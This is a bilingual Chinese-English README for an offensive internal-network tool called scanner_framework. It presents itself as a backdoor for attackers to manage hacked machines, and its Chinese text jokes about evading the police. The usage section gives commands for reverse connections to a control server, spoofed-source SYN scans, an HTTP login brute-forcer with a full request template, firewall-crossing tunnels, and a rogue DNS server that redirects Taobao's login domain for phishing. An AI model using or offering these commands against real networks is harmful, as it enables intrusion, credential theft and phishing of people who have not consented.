 ﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro<br/>

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.<br/>


***

###启动方式  [How to launch it ]
scanner.exe 控制台启动  [Launch it by console]<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to use it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
using:arp<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
using:local<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解  [online crack]<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪  [tracert route]<br/>
using:tracert %ip/host%<br/>
抓取页面  [get a HTML page on server]<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能  [tunnal port]<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
启动DNS 服务器 [dns server]<br/>
using:dns [run|start] | add %host% %ip% | delete %ip%<br/>
获取外网IP 地址和粗略定位 [get internet ip no is internal network ip and get the location]<br/>
using:ip<br/>
显示帮助  [show help]<br/>
using:help<br/>
退出  [exit scanner]<br/>
using:quit<br/>

###在线破解  [About Online Crack]
>在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
>
>什么是表达式?
>
>表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
>
>本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
>
>crack 192.168.1.103 80
>
>然后会提示输入表达式
>
>input your crack express:
>
>输入数据包数据:
>POST http://192.168.1.103:80/api/analays.php HTTP/1.1
>Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
>Referer: http://192.168.1.103/api/analays.php
>Accept-Language: zh-CN
>User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)
>Content-Type: application/x-www-form-urlencoded
>Accept-Encoding: gzip, deflate
>Host: 192.168.1.103
>Content-length: %length%
>Pragma: no-cache
>
>__user=%username%&pass=%password%__
>
>其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小
>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名
>和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填
>%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间
>某个位置出现填写错误就输入<reset>来重新填写破解数据包,
>下面的输入成功判断条件也是同理..
>
>input your check term:
>
>输入成功判断条件,由于经过测试,如果输入密码成功的话,
>页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
>Success
>
>now cracking!
>
>__network crack - target:192.168.1.103:80
>username:root password:toor__
>
>破解完成
>
>
>表达式函数:
>
>__base64(%string%)__ -- 采用base64 编码
>__time()__ -- 获取系统时间
>__len(%string%)__ -- 统计字符串长度
>__rnd([%low%-%up%])__ -- 在%low% 到%up% 之间生成随机数
>
>Example :
>
>破解水星的数据包 (其它都差不多,关键在Cookie):
>
>Cookie: a2404_pages=10; a2404_times=5; __Authorization=Basic%20base64(admin:%password%)__\r\n
>
>接下来会把%password% 先填充好之后再编码base64
>
>WARNING! 由于水平问题还做不出递归,请见谅 ..  
>


####DNS 服务器 [About DNS Server]

DNS 服务器是针对内网的信息钓鱼,比如通过伪造的站点来钓得更多的个人信息或者欺骗应用程序更新,如果上面的用法还不太明白的话可以看这里 [DNS server usualy use redirecting to phishing sites]<br/>

dns run 启动DNS 服务器 [run dns server]<br/>
dns exit 退出DNS 服务器 [exit dns server]<br/>
dns add m.login.taobao.com 127.0.0.1 把淘宝的手机登陆域名绑定到本地IP [point m.login.taobao.com to localhost via dns setting]<br/>
dns delete www.baidu.com 删除DNS 查询项目 [delete this record]<br/>


####端口转发原理 [tunnal port design]
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)

###Other

#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..